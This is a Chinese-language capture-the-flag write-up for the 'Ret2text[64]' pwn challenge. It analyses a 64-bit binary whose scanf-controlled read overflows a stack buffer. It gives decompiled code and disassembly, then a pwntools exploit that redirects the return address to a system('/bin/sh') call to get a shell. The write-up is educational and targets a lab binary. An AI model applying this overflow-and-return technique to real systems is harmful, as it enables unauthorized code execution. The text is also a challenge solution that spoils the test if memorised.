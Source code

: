 ```yaml
---
title: Ret2text[64]
author: 13m0n4de
difficulty: Normal
category: Pwn
image: ghcr.io/svuctf/svuctf-helloworld-2024/ret2text64:latest
port: 70
writeup_author: pn1fg
tags:
  - ret2text
reference:
---
```


# Ret2text\[64\]

## 题目描述

## 题目解析

这是 `ret2text32` 的升级版，64 位程序与 32 位不同，函数通过寄存器来传参，并且内存地址大小为 8 字节而不是 4 字节。

64 位程序传参：

参数：a，b，c，d，e，f，g，h

- 前 6 个：a->%rdi，b->%rsi，c->%rdx，d->%rcx，e->%r8，f->%r9
- 从第七个开始恢复到 32 位传参方式，从右至左压入栈中

### 查看文件信息

查看文件类型：

```
$ file ret2text64
ret2text64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9878ecbc44383c00e0f0009da41011932cffa587, for GNU/Linux 3.2.0, not stripped
```

64位 ELF 文件，动态链接，没有去除符号。

查看保护机制：

```
$ checksec --file=ret2text64
RELRO           Partial RELRO
STACK CANARY    No canary found
NX              NX enabled
PIE             No PIE
RPATH           No RPATH
RUNPATH	        No RUNPATH
Symbols		    77 Symbols
FORTIFY	        No
Fortified	    0
Fortifiable	    1
FILE            ret2text64
```

NX 保护。

### 分析漏洞成因

反编译 `vuln` 函数：

```c
[0x00401130]> s sym.vuln
[0x0040135a]> pdg

int vuln()
{
  char buf[44]; // [rsp+0h] [rbp-30h] BYREF
  int v2; // [rsp+2Ch] [rbp-4h] BYREF

  puts("Welcome to the secret data vault!");
  puts("How much data do you want to store (in bytes)?");
  __isoc99_scanf("%d", &v2);
  puts("Enter your secret data now:");
  read(0, buf, v2);
  return puts("Data stored successfully!");
}
```

本题函数的漏洞点在 `scanf` 函数与 `read` 函数处：

- `read` 函数从标准输入，读取大小为 `v2` 的数据存入 `buf` 数组中
- `buf` 的大小为 0x30，`v2` 的大小由 `scanf` 函数接收的为准

所以这题的输入大小由我们决定，可以超出 `buf` 的长度，造成栈溢出。

反编译 `b4ckd00r` 函数：

```c
[0x0040135a]> s sym.b4ckd00r
[0x004012d6]> pdg

int b4ckd00r()
{
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  int buf; // [rsp+8h] [rbp-8h] BYREF
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/dev/urandom", 0);
  read(fd, &buf, 4uLL);
  close(fd);
  __isoc99_scanf("%d", &v1);
  if ( v1 == buf )
    return system("/bin/sh");
  else
    return puts("Hacker!");
}
```

程序首先使用 `read` 函数从 `/dev/urandom` 中读取 4 个字节的数据存入 buf 中，紧接着用 `scanf` 读取一个整数存入 `v1` 中，然后条件判断，`v1` 与 `buf` 相等即可获取 shell。

看了[猜数字](../srand/README.md)题解的选手可能会想到：预测随机数使得 `v1 == buf` 判断成功从而获取 shell。

但这里使用的是 `/dev/urandom`，它是 Linux 系统提供的一个密码学安全的伪随机数生成器：

- 与 `srand` + `rand` 这类伪随机数不同，它从系统熵池收集随机性
- 满足密码学应用的随机性要求，输出在统计和计算上都不可预测
- 即使知道前一个随机数，也无法推测下一个随机数

所以这里我们需要考虑其他的利用方式。

反汇编 `vuln` 函数：

```asm
[0x004012d6]> pdf
┌ 132: sym.b4ckd00r ();
│           ; var int64_t fildes @ rbp-0x4
│           ; var void *buf @ rbp-0x8
│           ; var int64_t var_ch @ rbp-0xc
│           0x004012d6      f30f1efa       endbr64
│           0x004012da      55             push rbp
│           0x004012db      4889e5         mov rbp, rsp
│           0x004012de      4883ec10       sub rsp, 0x10
│           0x004012e2      be00000000     mov esi, 0                  ; int oflag
│           0x004012e7      488d3de10d..   lea rdi, str._dev_urandom   ; 0x4020cf ; "/dev/urandom" ; const char *path
│           0x004012ee      b800000000     mov eax, 0
│           0x004012f3      e818feffff     call sym.imp.open           ; int open(const char *path, int oflag)
│           0x004012f8      8945fc         mov dword [fildes], eax
│           0x004012fb      488d4df8       lea rcx, [buf]
│           0x004012ff      8b45fc         mov eax, dword [fildes]
│           0x00401302      ba04000000     mov edx, 4                  ; size_t nbyte
│           0x00401307      4889ce         mov rsi, rcx                ; void *buf
│           0x0040130a      89c7           mov edi, eax                ; int fildes
│           0x0040130c      e8dffdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x00401311      8b45fc         mov eax, dword [fildes]
│           0x00401314      89c7           mov edi, eax                ; int fildes
│           0x00401316      e8c5fdffff     call sym.imp.close          ; int close(int fildes)
│           0x0040131b      488d45f4       lea rax, [var_ch]
│           0x0040131f      4889c6         mov rsi, rax
│           0x00401322      488d3db30d..   lea rdi, [0x004020dc]       ; "%d" ; const char *format
│           0x00401329      b800000000     mov eax, 0
│           0x0040132e      e8edfdffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│           0x00401333      8b55f4         mov edx, dword [var_ch]
│           0x00401336      8b45f8         mov eax, dword [buf]
│           0x00401339      39c2           cmp edx, eax
│       ┌─< 0x0040133b      750e           jne 0x40134b
│       │   0x0040133d      488d3d9b0d..   lea rdi, str._bin_sh        ; 0x4020df ; "/bin/sh" ; const char *string
│       │   0x00401344      e887fdffff     call sym.imp.system         ; int system(const char *string)
│      ┌──< 0x00401349      eb0c           jmp 0x401357
│      ││   ; CODE XREF from sym.b4ckd00r @ 0x40133b(x)
│      │└─> 0x0040134b      488d3d950d..   lea rdi, str.Hacker_        ; 0x4020e7 ; "Hacker!" ; const char *s
│      │    0x00401352      e869fdffff     call sym.imp.puts           ; int puts(const char *s)
│      │    ; CODE XREF from sym.b4ckd00r @ 0x401349(x)
│      └──> 0x00401357      90             nop
│           0x00401358      c9             leave
└           0x00401359      c3             ret
```

我们来看一下汇编代码，如果让程序不回到 `vuln` 函数的开头，而是返回到 `0x0040133d` 处，即 `lea rdi, str._bin_sh` 这条汇编语句处。

从这里开始往下执行，那我们就可以绕过上面的条件判断语句，直接拿到 shell。

### 编写利用程序

[exp.py](./writeup/exp.py):

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

io = process("../attachments/ret2text64")
elf = ELF("../attachments/ret2text64")

system_bin_sh = 0x0040133D

payload = flat([cyclic(0x30), "A" * 8, system_bin_sh])

io.sendlineafter("How much data do you want to store (in bytes)?\n", b"200")
io.sendafter("Enter your secret data now:\n", payload)

io.interactive()
```
